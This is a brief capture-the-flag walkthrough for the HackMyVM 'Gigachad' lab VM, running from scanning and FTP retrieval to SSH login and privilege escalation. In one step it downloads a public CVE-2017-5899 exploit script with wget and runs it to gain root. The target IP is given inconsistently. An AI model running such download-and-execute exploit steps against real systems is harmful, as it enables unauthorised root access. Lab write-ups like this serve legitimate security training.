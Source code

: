 Walkthrough HackMyVM Gigachad
Ip : 192.168.0.198
Mission : Get flag in user.txt and root.txt
Link Machine : https://downloads.hackmyvm.eu/gigachad.zip

1. Search ip with netdiscover :
sudo netdiscover -i ens33 -r 192.168.0.0/24 and get ip address 192.168.0.198

2. nmap -sS -sC -sV -p- 192.168.88.198
Output : Open port 21, 22, 80

3. ftp 192.168.88.198 :
ftp > get chadinfo

4. cat chadinfo and get information go to /drippinchad.png

5. Download image and go to google images to know about the image

6. And you know password of ssh :
Username = chad
Password = maide*****er

7. cat user.txt ( you got first flag, now go to root.txt)

8. find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

9. wget https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2017-5899/exploit.sh; chmod 777 exploit.sh; ./exploit.sh

10. cd ../..; cat root.txt
